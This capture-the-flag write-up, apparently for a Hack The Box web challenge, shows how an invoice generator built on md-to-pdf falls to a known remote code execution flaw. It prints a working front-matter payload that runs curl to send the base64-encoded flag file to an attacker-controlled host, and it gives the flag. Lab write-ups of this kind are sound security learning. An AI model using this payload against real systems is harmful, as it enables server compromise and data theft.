 ![image](https://user-images.githubusercontent.com/80063008/169332230-ab4edbcc-702b-4cba-ad90-647268c4c04e.png)

We get on a page where we can create a PDF invoice.

![image](https://user-images.githubusercontent.com/80063008/169332707-6be56ec5-53fb-45f6-873c-cf8056c5e026.png)

Checking the provided source code, we notice how these PDFs are generated. They are using md-to-pdf that is vulnerable to RCE.

![image](https://user-images.githubusercontent.com/80063008/169332943-38599176-89cf-443c-bbdc-65ced4e8fd74.png)

We can find the required payload here:
https://github.com/simonhaenisch/md-to-pdf/issues/99

```javascript
---js\n((require("child_process")).execSync(\"curl http://yourip/`cat /flag.txt|base64 -w0`\"))\n---RCE
```
![image](https://user-images.githubusercontent.com/80063008/169334413-3cc0dea8-d5d7-4294-854f-145ca10e4ff6.png)

And we get our flag.
![image](https://user-images.githubusercontent.com/80063008/169335019-5a02ae5d-e6b6-46eb-82fb-3923e9564bdb.png)
![image](https://user-images.githubusercontent.com/80063008/169335045-a7298c78-d263-4e82-bb7d-461b5484ba5a.png)

HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
